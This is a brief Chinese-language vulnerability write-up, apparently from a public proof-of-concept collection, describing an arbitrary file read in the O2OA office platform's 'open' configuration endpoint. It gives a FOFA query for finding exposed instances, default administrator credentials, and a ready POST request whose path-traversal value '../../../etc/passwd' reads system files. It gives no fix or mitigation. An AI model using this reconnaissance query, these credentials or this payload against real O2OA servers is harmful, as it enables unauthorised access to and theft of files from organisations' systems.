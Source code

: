 # O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

```
O2OA
```

## FOFA

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20230314090606993](images/image-20230314090606993.png)

默认密码登录后台 xadmin/o2 (o2oa@2022), 验证POC

```
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![image-20230314090619645](images/image-20230314090619645.png)
